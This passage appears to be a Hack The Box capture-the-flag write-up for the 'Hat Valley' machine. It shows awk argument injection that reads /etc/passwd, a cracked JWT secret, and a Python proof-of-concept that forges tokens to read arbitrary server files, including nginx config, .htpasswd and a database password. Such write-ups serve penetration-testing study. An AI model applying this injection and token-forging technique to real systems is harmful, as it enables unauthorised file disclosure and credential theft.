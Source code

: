 This would cause awk to open it like a file.
```bash
awk '//' /etc/passwd '//'
```

# File disclosure (LFI but different)
## JWT
Chris' jwt token:
```txt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc3NDEzMzU3fQ.hK9xHLgnXOmt4kefMQLaV5nmnbwpiaNWPJ5A1LLz4zA
```

Hashcat to crack the jwt.
```txt
123beany123
```

:)

## Python script
Automation time.

POC:
```python
import requests
import jwt
import sys

secret = '123beany123'
username = f"/' {sys.argv[1]} '/"
token = jwt.encode({'username': username,  "iat": 1516239022}, secret, algorithm="HS256")

headers = {'Cookie': 'token=' +token}
r = requests.get('http://hat-valley.htb/api/all-leave',headers=headers)

print(r.text)
```

## Code exec
```bash
python3 exp.py /var/www/hat-valley.htb/package.json|jq .
```

This leaks the file location of the server: `server/server.js`

Found a sqldb pwd.
`SQLDatabasePassword321!`

Get the conf file for the store page to get the htpasswd file.
```bash
python3 exp.py /etc/nginx/sites-available/store.conf
python3 exp.py /etc/nginx/conf.d/.htpasswd

admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1
```
(hash didn't crack)
